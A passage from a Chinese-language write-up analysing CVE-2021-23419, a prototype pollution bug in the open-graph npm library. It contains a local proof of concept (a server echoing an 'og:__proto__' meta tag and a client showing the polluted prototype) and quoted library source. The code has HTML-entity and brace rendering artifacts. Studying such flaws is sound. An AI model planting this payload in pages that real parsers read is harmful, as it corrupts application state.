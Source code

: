 

## 0x03 漏洞原理分析

open-graph 库在 8月5日被披露存在原型链污染漏洞，CVE号为 CVE-2021-23419，目前最新版本为 0.2.6，漏洞已修复，复现分析原理时可以安装 0.2.4 版本。

poc 如下：

分为server.js 与 client.js。

server.js，其实也就是一个回显 meta 标签的 web 服务。

```
const http = require('http');

http.createServer((req, res) =&gt; `{`
    res.write('&lt;meta property="og:__proto__:foo" content="polluted" /&gt;');
    res.end();
`}`).listen(8080);
```

client.js，访问 meta 标签内容，即可看到

```
const og = require('open-graph');

og('http://127.0.0.1:8080', () =&gt; `{`
    console.log((`{``}`).foo); // polluted
`}`);
```

下面结合这个poc进行进一步分析。

打开源码 node_modules\open-graph\index.js，源码比较短，主要有两个函数，getHTML 与 parse。

getHTML 没有什么可以说的，向某个页面发起请求，解析页面内容，cb 是一个回调函数，在 client.js 调用 og 函数时没有指定，这里就无需关注。

```
exports.getHTML = function(url, cb)`{`
    var purl = require('url').parse(url);

    if (!purl.protocol)
        purl = require('url').parse("http://"+url);

    url = require('url').format(purl);

    request(`{`
            url: url,
            encoding: 'utf8',
            gzip: true,
            jar: true
        `}`,
        function(err, res, body) `{`
            if (err) return cb(err);

            if (res.statusCode === 200) `{`
                cb(null, body);
            `}`
            else `{`
                cb(new Error("Request failed with HTTP status code: "+res.statusCode));
            `}`
        `}`)
`}`
```
